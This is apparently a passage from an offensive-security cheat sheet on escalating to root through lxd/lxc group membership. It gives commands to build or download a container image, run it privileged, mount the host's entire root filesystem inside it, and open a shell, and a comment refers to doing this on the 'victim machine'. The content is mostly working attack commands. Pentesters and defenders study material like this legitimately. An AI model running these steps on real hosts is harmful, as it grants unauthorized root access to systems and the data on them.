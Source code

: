 ### With Internet

```bash
lxc init ubuntu:16:04 myimage -c security.privileged=true
lxc config device add myimage whatever disk source=/ path=/mnt/root recursive=true
lxc start test
lxc exec test bash
```

### Without Internet

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

Also you can download directly the image from ubuntu:

```bash
wget http://cloud-images.ubuntu.com/xenial/current/xenial-server-cloudimg-amd64-root.tar.xz
wget http://cloud-images.ubuntu.com/xenial/current/xenial-server-cloudimg-amd64-lxd.tar.xz
And exploit it:
```

```bash
# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
lxc image import xenial-server-cloudimg-amd64-*.tar.xz --alias myimage # Or this depending if you downloaded

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

## adm
